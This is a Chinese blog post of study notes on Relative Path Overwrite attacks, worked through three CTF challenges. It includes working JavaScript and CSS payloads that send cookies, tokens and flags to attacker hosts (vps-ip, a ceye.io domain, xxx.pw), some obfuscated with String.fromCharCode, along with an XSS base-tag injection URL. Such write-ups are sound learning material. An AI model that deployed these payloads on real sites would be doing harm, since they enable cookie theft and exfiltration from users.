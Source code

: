 ```yaml
---
title: "RPO攻击学习笔记"
slug: "rpo-attack-study-notes"
description: "relative path overwrite"
date: 2022-04-24T21:39:29+08:00
categories: ["NOTES&SUMMARY"]
series: []
tags: ["RPO"]
draft: false
toc: true
---
```


http://0n0.fun/post/2018/03/learn-about-rpo-from-one-ctf-challenge/

----

RPO指Relative Path Overwrite 相对路径覆盖，利用浏览器和服务器的解析差异 将页面中使用相对路径引入的静态资源文件进行替换，完成RPO攻击

最常见的就是对url path的解析差异，比如这样的url

```
http://192.168.31.175/test%2findex.html
```

默认情况下apache会认为请求的是`test%2findex.html`，无法访问，而Nginx会将`%2f`解析为`/` 从而认为请求的是test文件夹下的`index.html`，正常访问（可以通过修改路由规则来影响这些）

另一个需要满足的条件是页面静态资源文件的相对路径，以下面的题为例

## [强网杯 2018]share mind

*没有找到docker文件，以下内容参考[wp1](https://yangrz.github.io/blog/2018/03/27/ctf/)  |  [wp2](https://xz.aliyun.com/t/2220)

我们可以在report页面给bot提交一个link，还可以写note，如果不写标题只写内容的话在view时文章页面是直接打印的内容（无`<h1>`），而两个都写了的话是把文章标题和内容都输出在html标签之间的（有`<h1>`）

![share your mind6](https://github.com/yangrz/blog/raw/gh-pages/img/share%20your%20mind6.png)

![share your mind7](https://github.com/yangrz/blog/raw/gh-pages/img/share%20your%20mind7.png)


在页面源码中我们可以发现jquery.min.js这个文件是使用的相对路径的方式引入到index.php页面

![share your mind8](https://github.com/yangrz/blog/raw/gh-pages/img/share%20your%20mind8.png)

也就是说如果访问的页面是`http://39.107.33.96:20000/index.php/`则会引入`http://39.107.33.96:20000/index.php/static/js/jquery.min.js`，结合我们前面提过的url解析问题，如果访问的页面是`http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2f` 浏览器则会尝试引入`http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2fstatic/js/jquery.min.js`，而这个url请求的页面实际上还是我们的Note，也就是note内容将作为jquery.min.js被引入页面，如果note部分是payload，那么访问`http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2f`就会执行

我们可以构造类似这样的payload来偷cookie

```js
(new Image()).src='http://vps-ip:port/?cookie='+document.cookie
```

页面对引号做了转义，我们用`String.fromCharCode`

```js
(new Image()).src = String.fromCharCode(104,116,116,112,58,47,47,55,101,52,122,119,48,99,101,121,101,46,105,111,63)+document.cookie;
```

cookie提示我们打另一个目录，构造exp

```js
var iframe = document.createElement(String.fromCharCode(105,102,114,97,109,101));
iframe.src = String.fromCharCode(47,81,87,66,95,102,108,52,103,47,81,87,66,47);
iframe.id = String.fromCharCode(102,114,97,109,101);
document.body.appendChild(iframe);
iframe.onload = function (){
    var c = document.getElementById(String.fromCharCode(102,114,97,109,101)).contentWindow.document.cookie;
	var y1r0nz = document.createElement(String.fromCharCode(108,105,110,107));
	y1r0nz.setAttribute(String.fromCharCode(114,101,108),String.fromCharCode(112,114,101,102,101,116,99,104));
    y1r0nz.setAttribute(String.fromCharCode(104,114,101,102), String.fromCharCode(47,47,55,101,52,122,119,48,46,99,101,121,101,46,105,111,47,63,102,108,97,103,61) + c);
    document.head.appendChild(y1r0nz);
}
```

经过浏览器渲染以后就是下述的两行html代码

```html
<iframe id="frame" src="/QWB_fl4g/QWB/">
<link rel="prefetch" href="http://7e4zw0.ceye.io/?flag=document.getElementById(frame).contentWindow.document.cookie">
```

prefetch属性规定了当前文档在链接文档之前被调用，这样就可以外带对应路径下的cookie了

## [pwnhub 0618]大物必须过

[wp](https://pwnhub.cn/media/writeup/113/29b7f18c-b1f2-4cfc-8f84-1b3793c52a7a_9f56fde2.pdf)  |  [wp2](https://blog.csdn.net/Fly_hps/article/details/80613543)

report_bug.php页面可以提交link，classes.php页面引入css时使用了相对路径进行加载

```html
<linkrel="stylesheet"type="text/css"href="../../classes.css">
```

与上面的思路相同，payload

```
http://52.80.19.55/user.php/69/0/..%2f..%2f..%2fclasses.php/0
```

当访问这个url时，classes.css会被/user.php/69对应的内容所覆盖

至于payload的内容，不同于我们常见的js payload

```css
*{}*{background-image:url(http://vpsip);}*{}
```

## [36c3CTF 2018]urlstorage

[dockerfile](https://github.com/eboda/34c3ctf/tree/master/urlstorage)  |  [wp](https://www.cnblogs.com/iamstudy/articles/2017_34C4_web_urlstorage_writeup.html) （由于dockerfile用的ubuntu17 无法复现）

页面的css加载使用相对路径（可以进行rpo 控制css），csp信息如下

```
frame-ancestors 'none'; form-action 'self'; connect-src 'self'; script-src 'self'; font-src 'self' ; style-src 'self';
```

/urlstorage处可以提交name和url，存在csrf（可以任意修改他人的url）

/flag?token=xxx处存在xss

思路：通过可以覆盖的css信息模糊匹配/爆破出flag

首先是爆破token，第一位字符：

```css
a[href^=flag\?token\=0]{background: url(//xxx.pw/rpo/?c=1);}
a[href^=flag\?token\=1]{background: url(//xxx.pw/rpo/?c=1);}
...
a[href^=flag\?token\=f]{background: url(//xxx.pw/rpo/?c=f);}
```

第二位字符：

```css
a[href^=flag\?token\=10]{background: url(//xxx.pw/rpo/?c=10);}
a[href^=flag\?token\=11]{background: url(//xxx.pw/rpo/?c=11);}
```

匹配flag时的坑点在于css选择器在匹配的时候首字符不能是数字，而flag的开头为`34c3`，所以使用css的模糊匹配

```css
#flag[value*=C3_1]{background: url(http://xxx.pw/?flag=C3_1);}
```

或者16进制编码

```css
#flag[value^=\33\34\43\33]{background: url(http://xxx.pw/?34c3);}
```

之后利用之前的xss点修改base标签进行rpo，获取flag

```
http://192.168.42.134:8080/flag?token=cdebcc090a8b4e339b876c33ad1c0acb%3C/title%3E%3Cbase%20href=urlstorage/123%3E
```

